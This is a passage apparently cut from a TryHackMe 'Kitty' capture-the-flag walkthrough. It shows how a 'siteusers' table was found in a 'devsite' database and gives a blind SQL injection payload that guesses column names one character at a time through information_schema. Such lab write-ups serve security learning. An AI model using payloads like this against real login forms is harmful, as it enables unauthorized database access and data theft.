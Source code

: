 ![](/assets/img/posts/walthrough/tryhackme/2024-10-22-kitty/table-enum.png)

We enumerated an interesting table named `siteusers`.

Since this is the only table in the `devsite` database, we can use the query below to enumerate the available columns in the table.
```mysql
admin' AND (SELECT SUBSTRING(column_name,1,1) FROM information_schema.columns WHERE table_schema='devsite' LIMIT 0,1)='a'-- -
```
![](/assets/img/posts/walthrough/tryhackme/2024-10-22-kitty/column_enum.png)
